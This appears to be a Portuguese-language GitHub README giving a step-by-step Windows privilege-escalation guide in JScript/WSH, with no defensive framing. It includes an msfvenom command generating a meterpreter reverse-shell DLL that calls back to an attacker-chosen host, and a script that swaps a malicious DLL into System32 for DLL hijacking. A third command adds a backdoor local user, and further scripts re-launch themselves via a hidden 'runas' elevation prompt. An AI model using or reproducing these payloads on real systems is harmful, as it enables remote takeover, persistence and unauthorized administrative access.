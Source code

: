 # ELEVAÇÃO DE PRIVILÉGIO COM JSCRIPT

__Utiliza o método <code>ShellExecute</code> do objeto <code>WScript.Shell</code> para executar um comando no Windows. O parâmetro <code>"runas"</code> indica que o comando deve ser executado com privilégios de administrador.__
<br/>

# Passos Para Realizar DLL Hijacking

### 1. Criar a DLL Maliciosa
Primeiro, você precisa criar uma DLL que contém o código que você deseja executar. Você pode usar ferramentas como msfvenom para gerar um payload.

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<YOUR_IP> LPORT=<YOUR_PORT> -f dll -o malicious.dll
```

### 2. Colocar a DLL no Diretório Correto
Encontre um diretório que é verificado pelo sistema ou por uma aplicação que executa com privilégios elevados. Um exemplo comum é o diretório System32.

```javascript
var WshShell = new ActiveXObject("WScript.Shell");
var fso = new ActiveXObject("Scripting.FileSystemObject");

// Caminho para a DLL maliciosa
var maliciousDllPath = "C:\\Windows\\System32\\malicious.dll";

// Caminho para a DLL legítima
var legitimateDllPath = "C:\\Windows\\System32\\legitimate.dll";

// Renomear a DLL legítima
fso.MoveFile(legitimateDllPath, legitimateDllPath + ".bak");

// Copiar a DLL maliciosa para o diretório legítimo
fso.CopyFile("C:\\path\\to\\malicious.dll", maliciousDllPath);
```
<br/>

### 3. Esperar que a Aplicação Carregue a DLL
Agora, você precisa esperar que a aplicação ou o sistema carregue a DLL maliciosa. Isso pode ocorrer automaticamente se a aplicação for iniciada ou se o sistema for reiniciado.

<br/>
<hr/>

## Exemplo de Script WSH para Elevação de Privilégios

```javascript
var WshShell = new ActiveXObject("WScript.Shell");
var command = "cmd.exe /c net user newUser password /add";
WshShell.Run(command, 1, true);
```

<br/>

## Exemplo de verificar se o usuário tem permissões de administrador e, se não tiver, solicitar a elevação.

```javascript
function isAdmin() {
    var shell = new ActiveXObject("WScript.Shell");
    try {
        // Tenta executar um comando que requer permissões de administrador
        var result = shell.Run("net session", 0, true);
        return true; // Se o comando for bem-sucedido, o usuário é administrador
    } catch (e) {
        return false; // Se o comando falhar, o usuário não é administrador
    }
}

function runAsAdmin() {
    var shell = new ActiveXObject("WScript.Shell");
    // Reexecuta o script como administrador
    shell.ShellExecute(WScript.FullName, "", "", "runas", 0); // 1 para mostrar a janela / 0 para não mostrar a janela
}

function sayHello() {
    WScript.Echo("Hello World");
}

// Verifica se o usuário é administrador
if (isAdmin()) {
    sayHello(); // Executa a função se for administrador
} else {
    runAsAdmin(); // Solicita elevação se não for administrador
}

```

<br/>

## Exemplo completo que incorpora essa linha para solicitar elevação de privilégios antes de executar um comando específico. 
Neste caso, o script tentará reexecutar a si mesmo com permissões de administrador:

```javascript
function runAsAdmin() {
    try {
        var shell = new ActiveXObject("WScript.Shell");

        // Executa o script atual com permissões de administrador
        shell.ShellExecute(WScript.FullName, "", "", "runas", 0);
    } catch (e) {
        WScript.Echo("Erro ao solicitar elevação de privilégio: " + e.message);
    }
}

// Verifica se o script já está sendo executado como administrador
function isUserAdmin() {
    try {
        var shell = new ActiveXObject("WScript.Shell");
        var network = new ActiveXObject("WScript.Network");

        // Obtém o nome do usuário atual
        var username = network.UserName;

        // Verifica se o usuário atual é parte do grupo Administradores
        var command = "net localgroup Administradores";
        var exec = shell.Exec(command);
        var output = "";

        // Lê a saída do comando
        while (!exec.StdOut.AtEndOfStream) {
            output += exec.StdOut.ReadLine() + "\n";
        }

        // Verifica se o nome de usuário está na lista de administradores
        return output.indexOf(username) !== -1;
    } catch (e) {
        WScript.Echo("Erro ao verificar permissões: " + e.message);
        return false; // Retorna falso em caso de erro
    }
}

// Chama a função para verificar permissões
if (!isUserAdmin()) {
    WScript.Echo("Solicitando permissões de administrador...");
    runAsAdmin();
} else {
    WScript.Echo("O script está sendo executado como administrador.");
    // Coloque aqui o código que deve ser executado com permissões de administrador
}
```
